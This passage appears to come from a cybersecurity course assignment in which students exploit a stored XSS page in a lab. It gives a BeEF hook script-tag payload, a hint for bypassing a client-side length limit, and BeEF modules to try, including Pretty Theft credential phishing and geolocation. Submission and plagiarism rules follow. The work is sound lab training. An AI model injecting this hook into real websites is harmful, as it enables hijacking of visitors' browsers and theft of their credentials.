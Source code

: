    - Task details:
     - You will test the Replicants Stored XSS application page (which we used on the first day of this module): `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command, was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      > **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:
     
     - Social Engineering > Pretty Theft
     
     - Social Engineering > Fake Notification Bar
     
     - Host > Get Geolocation (Third Party)
    
6. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.  


### Submission Guidelines

* After you complete your Submission File, title it with the following format: < YOUR NAME >< M15 Challenge Submission File >
* Make sure to set the file permissions so that anyone can view and comment on your document.
* Submit the URL of your Submission File Google Doc through Canvas.

### Plagiarism Disclaimer

It is your responsibility to include a note in the READ ME section of your repo specifying code source and its location within your repo. This applies if you have worked with a peer on an assignment, used code which you did not author or create sourced from a forum such as Stack Overflow, or you received code outside curriculum content from support staff such as an Instructor, TA, Tutor, or Learning Assistant. This will provide visibility to grading staff of your circumstances in order to avoid flagging your work as plagiarized.

If you are struggling with a challenge or any aspect of the curriculum, please remember there are student support services available for you:

* Ask the class Slack channel/ peer support
* AskBCS Learning Assistants 
* Office hours facilitated by your TA(s)
* Tutor sessions (sign up via this link)